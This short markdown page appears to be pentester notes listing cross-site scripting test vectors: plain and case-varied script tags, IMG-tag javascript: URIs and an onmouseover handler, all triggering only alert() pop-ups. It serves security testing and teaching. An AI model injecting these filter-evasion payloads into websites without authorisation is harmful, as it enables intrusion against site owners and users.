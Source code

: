 # Examples

This is a good list:

[https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester](https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester)

## No security

`<script>alert(1)</script>`

Imagine that the server sanitizes `<script>`. To bypass that we can use: `<SCrIpt>alert(2)</ScRiPt>` `<script type=text/javascript>alert(2)</script>`

### Using the IMG-tag

```text
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG onmouseover="alert('xxs')">
```

### Onmouseover

```text
<a onmouseover="alert(2)">d</a>
```

